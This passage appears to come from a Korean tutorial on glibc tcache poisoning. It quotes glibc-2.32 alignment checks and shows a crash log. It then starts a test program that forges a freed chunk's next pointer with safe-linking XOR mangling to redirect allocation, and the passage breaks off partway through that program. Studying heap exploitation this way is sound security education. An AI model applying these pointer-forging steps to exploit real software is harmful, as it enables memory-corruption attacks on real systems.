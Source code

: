 ```c
    char *test_chunk = malloc(0x80);
    printf("%s\n", test_chunk);

    return 0;
}
```

```shell
~$ ./tcache_poisoning
malloc(): unaligned tcache chunk detected
Aborted (core dumped)
```

다음과 같이 정렬되지 않은 청크가 감지되었다는 메시지와 종료되는 것을 볼 수 있다. 실제로 glibc-2.32부터는 할당할 청크에 대한 alignment까지도 확인한다.
위에서 말했던 `tcache_get()` 함수를 glibc-2.32에서 살펴보면

```c
// Def. in /sysdeps/generic/malloc-alignment.h, line 27 (@glibc-2.32)
#define MALLOC_ALIGNMENT (2 * SIZE_SZ < __alignof__ (long double) \
			  ? __alignof__ (long double) : 2 * SIZE_SZ)

// Def. in /malloc/malloc_internel.h, line 62 (@glibc-2.32)
#define MALLOC_ALIGN_MASK (MALLOC_ALIGNMENT - 1)

// Def. in /malloc/malloc.c, line 1200 (@glibc-2.32)
#define aligned_OK(m)  (((unsigned long)(m) & MALLOC_ALIGN_MASK) == 0)

// Def. in /malloc/malloc.c, line 2948 (@glibc-2.32)
static __always_inline void *
tcache_get (size_t tc_idx)
{
	...
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  ...
}
```

다음과 같이 `aligned_OK()`를 사용해 청크의 alignment를 확인하는 것을 볼 수 있다.
따라서 next를 조작할 때 목표 주소의 하위 4비트는 항상 0이어야 한다.

# 4. 결론

모든 조건을 고려한 다음과 같은 코드로 tcache poisoning을 테스트해볼 수 있다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>

int main() {
    char *test = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
                      MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    char *chunk1 = malloc(0x80);
    char *chunk2 = malloc(0x80);

    strcpy(test, "foobarspameggsdeadbeefcafebebe");

    free(chunk1);
    free(chunk2);

    *(unsigned long *)chunk2 = ((unsigned long)chunk2 >> 12) ^ (unsigned long)test;

```